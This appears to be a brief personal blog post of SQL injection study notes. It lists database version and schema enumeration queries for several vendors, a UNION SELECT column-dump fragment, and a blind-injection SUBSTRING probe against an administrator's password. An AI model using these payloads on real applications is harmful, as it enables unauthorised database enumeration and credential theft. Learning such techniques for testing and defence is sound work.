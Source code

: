 ```yaml
---
layout: post
title: Quiries
status: Done
type: post
published: true
comments: true
date: 2021-10-08
---
```

### Quires
 
  #### Get database info
 On Oracle this gives version details:
 ```SQL
 SELECT * FROM v$version
 ```
 
 To get the tables that exist:
 ```SQL
 SELECT * FROM  information_schema.tables
 ```
 normally works+
 
 
 ### Database type and version request
 
 The following return database version for the specified popular database
 
| Data base type   | Query                     |
|------------------|---------------------------|
| Microsoft, MySQL | `SELECT @@version`          |
| Oracle           | `SELECT * FROM v$version`    |
| PostgreSQL       | `SELECT version()`          |

 - Note: For Oracle Banner is one of the *


### Get table info

#### get all tables
It seems that 
For PostgreSQL
```sql
SELECT table_name FROM information_schema.tables
```



#### get all columns for a table
For PostgreSQL
```SQL
UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'Table name' --
```

### Get string length

`LENGTH(string)`

SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'm
